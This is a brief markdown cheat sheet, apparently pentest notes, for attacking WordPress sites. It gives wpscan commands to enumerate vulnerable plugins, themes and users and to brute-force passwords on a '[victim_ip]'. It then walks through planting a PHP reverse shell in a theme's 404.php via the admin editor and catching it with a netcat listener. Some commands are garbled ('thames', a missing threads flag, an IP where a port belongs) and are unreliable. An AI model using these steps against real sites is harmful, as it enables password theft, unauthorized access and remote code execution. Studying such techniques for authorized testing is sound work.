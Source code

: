 ### wpscan 

#### Scan
- wpscan --url https://[target_ip]
#### Vulnerable Plugins
- wpscan --url http://[victim_ip] --enumerate vp
#### Vulnerable Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Enumerate Users
- wpscan -u http://[victim_ip] --enumerate u
#### Password Bruteforce
- wpscan -u http://[victim_ip] --wordlist file.txt threads 50

#### ReverseShell via thames

- Log_in
- Side menu
- Appearance
  - Editor
  - 404.php
  - paste php reverse shell
- run nc -lnvp [ip]

- Open /wp-content/themes/twentyfiftee(change for your thames name)/404.php


